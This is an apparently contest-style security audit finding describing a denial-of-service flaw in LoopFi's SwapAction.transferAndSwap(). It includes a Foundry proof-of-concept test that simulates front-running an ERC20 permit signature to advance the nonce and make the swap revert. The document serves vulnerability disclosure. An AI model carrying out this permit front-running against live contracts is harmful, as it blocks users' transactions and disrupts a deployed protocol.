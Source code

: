 ## [M] DOS attack to `SwapAction.transferAndSwap()` when using  an ERC20 permit `transferFrom`

`SwapAction.transferAndSwap()` will perform a `_transferFrom` to transfer the input tokens to the user proxy and then perform a swap via a router. When it uses an ERC20 permit `transferFrom`, an attacker can extract the `v, r, s` from the `safePermit()` call and frontruns it with a direct `safePermit()` with the same arguments. As a result, `SwapAction.transferAndSwap()` will fail due to the advancing of nonce. Effectively, this is a DOS attack.

### Proof of Concept

First, `SwapAction.transferAndSwap()` will perform a `_transferFrom` to transfer the input tokens to the user proxy and then perform a swap via a router.

[src/proxy/SwapAction.sol#L93C14-L103](repos/2024-07-loopfi/src/proxy/SwapAction.sol#L93C14-L103)

Second, `_transferFrom` has three cases: `permit2`, `permit` or standard `transferFrom`:

[src/proxy/TransferAction.sol#L46-L82](repos/2024-07-loopfi/src/proxy/TransferAction.sol#L46-L82)

The vulnerability lies in the second case, there are two parts:
1. Call `token.safePermit()`;
2. Call `token.safeTransferFrom`.

The first component will set the proper allowance when successful. The problem is that an attacker can observe the mempool and extract the `v, r, s` from the `safePermit()` call and frontruns it with a direct `safePermit()` with the same arguments. As a result, the `_transferFrom` and thus `SwapAction.transferAndSwap()` will fail due to the advancement of the nonce.

[This permit DOS attack](<https://www.trust-security.xyz/post/permission-denied>) has been reported by Immunifi earlier.

The following POC confirms the finding:

1. We simulate the front-running by calling `USDC.SafePermit()` right before the call of `userProxy.execute()`.
2. The result shows we have the right allowance but `SwapAction.transferAndSwap()`  fails due to wrong verification of signature since the nonce has increased by 1.

Run `forge test --match-test testSwapDOS -vv`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console2.sol";

import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import {IERC20Permit} from "@openzeppelin/contracts/token/ERC20/extensions/draft-IERC20Permit.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";


import {PRBProxyRegistry} from "prb-proxy/PRBProxyRegistry.sol";
import {PRBProxy} from "prb-proxy/PRBProxy.sol";

import {ISignatureTransfer} from "permit2/interfaces/ISignatureTransfer.sol";

import {IUniswapV3Router, decodeLastToken, UniswapV3Router_decodeLastToken_invalidPath} from "../../vendor/IUniswapV3Router.sol";
import {IVault as IBalancerVault} from "../../vendor/IBalancerVault.sol";

import {PermitMaker} from "../utils/PermitMaker.sol";

import {ApprovalType, PermitParams} from "../../proxy/TransferAction.sol";
import {SwapAction, SwapParams, SwapType, SwapProtocol} from "../../proxy/SwapAction.sol";
import {IPActionAddRemoveLiqV3} from "pendle/interfaces/IPActionAddRemoveLiqV3.sol";



contract SwapActionTest is Test {
    using SafeERC20 for ERC20;
    using SafeERC20 for IERC20Permit;

    SwapAction internal swapAction;

    // user and permit2 related variables
    PRBProxy internal userProxy;
    PRBProxy internal bobProxy;
    uint256 internal userPk;
    address internal user;
    address Bob = makeAddr("Bob");
    uint256 internal constant NONCE = 0;

    // swap protocols
    address internal constant ONE_INCH = 0x1111111254EEB25477B68fb85Ed929f73A960582;
    address internal constant BALANCER_VAULT = 0xBA12222222228d8Ba445958a75a0704d566BF2C8;
    address internal constant UNISWAP_V3 = 0xE592427A0AEce92De3Edee1F18E0157C05861564;
    address internal constant PENDLE_ROUTER= 0x00000000005BBB0EF59571E58418F9a4357b68A0;

    // Permit2
    ISignatureTransfer internal constant permit2 = ISignatureTransfer(0x000000000022D473030F116dDEE9F6B43aC78BA3);
    // https://etherscan.io/address/0x000000000022d473030f116ddee9f6b43ac78ba3#code

    // tokens
    ERC20 internal constant DAI = ERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    ERC20 internal constant USDC = ERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    ERC20 internal constant WETH = ERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    ERC20 internal constant BOND = ERC20(0x0391D2021f89DC339F60Fff84546EA23E337750f);
    ERC20 internal constant BAL = ERC20(0xba100000625a3754423978a60c9317c58a424e3D);

    // Chainlink oracles
    IPriceFeed internal constant DAI_ETH_FEED = IPriceFeed(0x773616E4d11A78F511299002da57A0a94577F1f4); // DAI:ETH
    IPriceFeed internal constant USDC_ETH_FEED = IPriceFeed(0x986b5E1e1755e3C2440e960477f25201B0a8bbD4); // USDC:ETH
    IPriceFeed internal constant BAL_USD_FEED = IPriceFeed(0xdF2917806E30300537aEB49A7663062F4d1F2b5F); // BAL:USD

    // uni v3
    IUniswapV3Router univ3Router = IUniswapV3Router(UNISWAP_V3);
    bytes internal constant DAI_USDC_PATH = abi.encodePacked(address(DAI), uint24(100), address(USDC));
    bytes internal constant DAI_WETH_BOND_PATH =
        abi.encodePacked(address(DAI), uint24(3000), address(WETH), uint24(3000), address(BOND));
    bytes internal constant DAI_WETH_USDC_PATH =
        abi.encodePacked(address(DAI), uint24(3000), address(WETH), uint24(3000), address(USDC));

    // Balancer
    bytes32 internal constant wethDaiPoolId = 0x0b09dea16768f0799065c475be02919503cb2a3500020000000000000000001a;
    bytes32 internal constant balWethPoolId = 0x5c6ee304399dbdb9c8ef030ab642b10820db8f56000200000000000000000014;
    // USDC, DAI, USDT StablePool
    bytes32 internal constant balancerStablePoolId = 0x06df3b2bbb68adc8b0e302443692037ed9f91b42000000000000000000000063;
    IBalancerVault internal constant balancerVault = IBalancerVault(BALANCER_VAULT);

    function setUp() public {
        vm.createSelectFork(vm.rpcUrl("mainnet"), 17055414); // 15/04/2023 20:43:00 UTC

        swapAction = new SwapAction(balancerVault, univ3Router, IPActionAddRemoveLiqV3(PENDLE_ROUTER));

        userPk = 0x12341234;
        user = vm.addr(userPk);

        PRBProxyRegistry prbProxyRegistry = new PRBProxyRegistry();                         // 1
        userProxy = PRBProxy(payable(address(prbProxyRegistry.deployFor(user))));
        console2.log("a userProxy has been created for user: ", address(userProxy));

        bobProxy = PRBProxy(payable(address(prbProxyRegistry.deployFor(Bob))));
        console2.log("a userProxy has been created for Bob: ", address(bobProxy));

        // set allowance for permit2 transfers
        vm.startPrank(user);
        DAI.approve(address(permit2), type(uint256).max);        // permi2 will verify signature and move funds
        USDC.approve(address(permit2), type(uint256).max);        // everybody gives permit2 approval first, and then enforce security via permit2
        vm.stopPrank();

        vm.startPrank(Bob);
        DAI.approve(address(permit2), type(uint256).max);        // permi2 will verify signature and move funds
        USDC.approve(address(permit2), type(uint256).max);        // everybody gives permit2 approval first, and then enforce security via permit2
        vm.stopPrank();

        vm.label(address(WETH), "WETH");
        vm.label(address(USDC), "USDC");
        vm.label(address(DAI), "DAI");
        vm.label(address(BOND), "BOND");
        vm.label(address(permit2), "permit2");
        vm.label(address(userProxy), "userProxy");
        vm.label(address(user), "user");
    }


    function printBalances(address a, string memory name) public{
        console2.log("\n =================================================");
        console2.log("Balances for ", name);
        console2.log("DAI balance: ", DAI.balanceOf(a));
        console2.log("USDC token balance: ", USDC.balanceOf(a));
        console2.log("BOND token balance: ", BOND.balanceOf(a));
        console2.log("=================================================\n ");
    }

    function testSwapDOS() public {
        console2.log("\n \n swap3---------------------------------------------");   // usdc -> DAI
        uint256 amountOut = 1_000 * 1e18; // amount out of DAI we expect
        uint256 amountInMax = (amountOut * 102) / 100e12; // allow 2% slippage
        deal(address(USDC), user, amountInMax);

        printBalances(user, "user");


        // get permit signature
        uint256 deadline = block.timestamp + 100;
        (uint8 v, bytes32 r, bytes32 s) = PermitMaker.getPermitTransferFromSignature(
            address(USDC),
            address(userProxy),           // spender of the permit
            amountInMax,           // approval amount
            NONCE,
            deadline,
            userPk
        );

        PermitParams memory permitParams = PermitParams({
            approvalType: ApprovalType.PERMIT,
            approvalAmount: amountInMax,
            nonce: NONCE,
            deadline: deadline,
            v: v,
            r: r,
            s: s
        });

        // construct swap params
        SwapParams memory swapParams = SwapParams({
            swapProtocol: SwapProtocol.UNIV3,
            swapType: SwapType.EXACT_OUT,
            assetIn: address(USDC),
            amount: amountOut,
            limit: amountInMax,
            recipient: user,
            deadline: deadline,
            args: DAI_USDC_PATH
        });

        console2.log("user: ", user);
        console2.log("userProxy: ", address(userProxy));
        console2.log("approvalAmount: ", amountInMax);
        console2.log("deadline: ", deadline);

        console2.log("allowance: ", USDC.allowance(user, address(userProxy)));




        console2.log("USDC: ", address(USDC));
        // simulate front-running of calling safePermit()
        IERC20Permit(address(USDC)).safePermit(
                user,
                address(userProxy),  // spender
                amountInMax,
                deadline,
                v,
                r,
                s
            );

        console2.log("allowance: ", USDC.allowance(user, address(userProxy)));



        vm.prank(user);
        vm.expectRevert("EIP2612: invalid signature");
        bytes memory response = userProxy.execute(
            address(swapAction),
            abi.encodeWithSelector(swapAction.transferAndSwap.selector, user, permitParams, swapParams)
        );
        // uint256 amountIn = abi.decode(response, (uint256));

    }
}
```






